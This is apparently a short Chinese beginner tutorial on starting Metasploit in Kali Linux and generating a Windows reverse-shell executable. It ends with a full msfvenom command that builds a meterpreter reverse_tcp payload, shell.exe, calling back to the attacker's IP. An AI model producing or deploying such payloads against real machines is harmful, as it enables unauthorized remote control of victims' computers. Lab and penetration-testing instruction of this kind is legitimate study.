

打开kali虚拟机 启动metasploit,终端输入msfconsole启动

每次启动metasploit时界面随机,可以输入banner切换
终端中输入clear可清理屏幕
呐，你看，没有了
第二种启动方式是搜索:metasploit framwork
生成被控端命令:msfconsole中输入:msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.108 lport=4444 -f exe >shell.exe

ps:lhost为攻击端ip地址(kali的ip,不是windows的ip)
生成的被控端在桌面名为shell.exe